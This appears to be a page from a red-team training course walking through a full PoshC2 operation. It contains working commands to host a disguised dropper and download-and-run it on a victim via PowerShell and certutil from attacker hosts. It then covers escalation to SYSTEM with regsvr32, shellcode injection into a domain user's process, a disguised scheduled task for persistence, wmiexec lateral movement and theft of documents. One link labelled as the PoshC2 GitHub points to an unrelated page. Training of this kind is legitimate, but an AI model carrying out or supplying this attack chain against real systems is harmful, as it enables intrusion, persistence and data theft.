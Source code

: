 # Running Poshc2

Create a new project:

```
posh-project -n <project-name>
```

Projects can be switched to or listed using this script:
```
[*] Usage: posh-project -n <new-project-name>
[*] Usage: posh-project -s <project-to-switch-to>
[*] Usage: posh-project -l (lists projects)
[*] Usage: posh-project -d <project-to-delete>
[*] Usage: posh-project -c (shows current project)
```
Edit the configuration for your project:
```
posh-config
```
Edit `bindport` to 80, the `payloadcommshost` to http://<parrot IP> (Make sure you delete the s in https)

Launch the Poshc2 server:
```
posh-server
```

Separately, run the ImplantHandler for interacting with implants:
```
posh -u <username>
```

For more on `Poshc2` github like [here](https://apple.stackexchange.com/questions/254380/why-am-i-getting-an-invalid-active-developer-path-when-attempting-to-use-git-a) 

# Host Payloads 

The Poshc2 Implant Types can be summarized as:
* `PS` - PowerShell Implant.
* `C#` - C# Implant that does not use System.Management.Automation.dll.
* `PY` - Python Implant.
* `PB` - PBind

In the ImplantHandler run file upload command 
```
add-hosted-file
```

Host file options 
```console
file location > /var/poshc2/<YourProjectName>/payloads/Sharp_v4_dropper_x64.exe
file uri > /en-us/readme.md
file MIME type > text/html
Base64 > n
```

View all hosted files by running
```
show-hosted-files
```

# Download Payload on Victim 

For testing lets downloading using powershell on victim machine using a basic user
```powershell
iwr -uri http://<YouripOrDomian>/en-us/readme.md -outfile C:\windows\temp\bad.exe; C:\windows\temp\bad.exe
```

Interact with implant by typeing `1` in ImplantHandler

# User Escalation

Check for running process 
```ps 
ps
```
> As a basic user you'll only be able to see anything ran under your own context. 

Lets escalate to system through execution  

Upload a the dll to the machine 
```ps
> upload-file 
> /var/poshc2/projetname/payloads/Sharp_v4_x64.dll
> location C:\windows\temp\updater.dll 
```

Execute dll using local windows binaries 
```ps
sharpps regsvr32 C:\windows\temp\updater.dll
``` 
> For more on native window binaries look [here](https://lolbas-project.github.io/)

After execution you should see a system level beacon return in ImplantHandler  

Once you are system you can Enumerate for other users on the box with domain access. 
```ps
ps
```

Search for any user process being ran as a domain user, to inject into

```ps
inject-shellcode <PID> 
```
```ps
<name_of_shellcode.bin>
```

Checking your ImplantHandler you should see a new beacon running in the context of said user.

As a domain user you can now run domain level commands, you can check your groups and privileges 
``` 
sharpps net user <domain username>
```

# Persistence and Scripting 

Now to maintain our domain user privilege lets create a .ps1 script to set persistence using registry keys  

On your attack box with the editor of your choice copy the following 
```ps
$payloadpath = "C:\windows\temp\bad.exe"
$taskname = "Test Updater"
$tskdescription = "This task updates things."
$action = New-ScheduledTaskAction -Execute $payloadpath
$days = 'Monday', 'Tuesday', 'Wednesday', 'Thursday', 'Friday'
$trigger = New-ScheduledTaskTrigger -weekly -DaysOfWeek $days -At 8am
Register-ScheduledTask -Action $action -Trigger $trigger -Taskname $taskname -Description $tskdescription
```
> Learn more about powershell `New-ScheduledTaskTrigger` [here](https://learn.microsoft.com/en-us/powershell/module/scheduledtasks/new-scheduledtask?view=windowsserver2022-ps)

Save your pslo script as bad.ps1 in /home/parrot/desktop/bad.ps1

Lets run the .ps1
```
pslo /home/parrot/desktop/bad.ps1
```

You should see your scheduled task name appear for confirmation 

# Lateral Movement 

**Only if you have more than one victim machine. If you don't, skip to Step 2**

Now lets run a `sharpview` to enumerate the network to conduct lateral movement
```
sharpview 
```
> Read more on sharpview [here](https://academy.hackthebox.com/course/preview/active-directory-powerview/powerviewsharpview-overview--usage)

We can use the enumeration script to identify the next workstation to laterally move to 

```
resolveip <127.0.0.1>
```

Lets host a new payload 
```
add-hosted-file
```

Host file opttions 

```console
file location > /var/poshc2/projectname/payloads/Sharp_v4_dropper_x64.exe
file uri > /verify
file MIME type > text/html
Base64 > n
```

Run wimc to get download and execution of hosted payload
```powershell
wmiexec <127.0.0.1> <domain> <username> password=asdsa "cmd /c certutil.exe -urlcache -split -f http://badip/verify C:\windows\downloads\bad2.exe && C:\windows\downloads\bad2.exe"
```

In ImplantHandler interact with the new payload 

Lets run a built in host enumeration script 
```
seatbelt
```
Take some time to look at the differnet feilds, look into any that you dont recognize.

In the new payload handler lets navigate to the `documents` folder 
```
cd C:\users\username\documents
```

lets see what documents we can find 
```
ls
```

Now lets download some files 
```
download-file <filename>
```

Congratulations you have ran through your first OPPLAN, check [here](poshc2_help_v8.md) for the help list for Poshc2 and other commands you can run.

## [Return to course page](README.md) or [Go To Next Step](step2-proxy-nginx.md)